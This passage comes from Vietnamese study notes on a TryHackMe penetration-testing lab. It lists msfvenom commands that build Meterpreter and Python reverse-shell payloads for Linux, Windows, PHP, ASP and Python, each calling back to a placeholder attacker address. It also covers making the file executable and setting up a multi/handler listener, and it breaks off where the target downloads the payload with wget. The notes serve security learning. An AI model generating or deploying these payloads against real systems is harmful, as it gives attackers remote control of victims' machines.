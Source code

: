 ***LPORT***: cổng mà trình xử lý (handler) lắng nghe

1. ***Linux Executable and Linkable Format (elf):***

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

- Định dạng ***.elf*** tương đương với ***.exe*** trên Windows, là tệp thực thi cho Linux.

- Để thực thi tệp này trên máy mục tiêu, cần cấp quyền thực thi bằng lệnh:

    chmod +x shell.elf

- Sau đó chạy file: 

    ./shell.elf

2. ***Windows***

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

3. ***PHP***

    msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

4. ***ASP:***

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

5. ***Python***:

    msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

=> Tất cả các ví dụ trên đều là reverse payload, nghĩa là cần thiết lập một handler trên máy tấn công để xử lý kết nối từ payload.

=> Sử dụng mô-đun exploit/multi/handler và thiết lập các tham số LHOST và LPORT tương ứng với giá trị đã dùng khi tạo payload bằng msfvenom.

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Metasploit/images/image66.png)

=> bên máy murphy dùng wget để tải payload này về và cấp quyền thực thi cho nó:
